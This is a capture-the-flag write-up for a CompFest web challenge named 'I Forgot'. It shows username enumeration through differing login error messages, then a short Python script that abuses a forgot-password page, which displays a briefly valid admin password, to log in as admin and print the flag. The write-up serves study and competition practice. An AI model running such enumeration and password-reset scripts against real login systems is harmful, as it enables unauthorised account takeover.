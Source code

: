 I Forgot (100)
==============

## Description
[http://tenjin.compfest.web.id:10340](http://tenjin.compfest.web.id:10340)

## Write up
- If we open the website we will see another login form
- Let's try login with username `asd` and password `asd`, it returns **Username tidak ada**
- A privileged username is admin or administrator, so let's try login with username `admin` and password `asd`, it returns **Password salah**, this means the user exists
- There's a forgot password feature, let's try inputting `admin` as the username then it generates a password that is valid for 1 second.
- We can solve this through writing a simple script that make a post request to `forgotpass.php`, scrap the password, then make a post request to `login.php`:

```python
import requests
BASE_URL = 'http://tenjin.compfest.web.id:10340/'

r = requests.get(BASE_URL)

c = dict(PHPSESSID=r.cookies['PHPSESSID'])
r = requests.post(BASE_URL + 'forgot.php',
				   data = {'username':'admin'},
				   cookies = c)

p = r.text.split('<h1>')[1].split('</h1>')[0];
print('new password =', p);

r = requests.post(BASE_URL + 'login.php',
				   data = {'username':'admin','password':p},
				   cookies = c)

p = r.text.split('<h1>')[1].split('</h1>')[0];
print('flag =', p)
```

- Then we get the flag: `COMPFEST9{r3qu35T_aND_5cR4p}`
